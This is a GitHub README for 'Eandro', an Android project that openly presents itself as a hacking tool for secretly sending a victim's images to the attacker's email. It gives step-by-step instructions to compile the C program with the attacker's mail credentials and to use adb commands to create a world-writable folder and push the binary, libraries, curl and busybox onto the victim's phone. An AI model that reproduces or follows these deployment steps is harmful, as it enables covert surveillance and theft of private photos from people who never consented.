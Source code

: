 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer
2 . Download Files that i Provided
3 . Download Eandro.c code to your Mobile or computer
4 . And here tough part comes install clang in Android or computer 
5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.
6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses
7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]
8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 
apt install clang

after successfully installtion of these two proceed following steps
 . cd /data/data/com.termux/files/home/
 . git clone git@github.com:maddalakum/Eandro.git
 . cd /data/data/com.termux/files/home/Eandro/lib64/ ; 
 . adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 
 . for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 
 . adb push ../curl /data/local/tmp/ ; 
 . adb push ../busybox /data/local/tmp/
 
In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
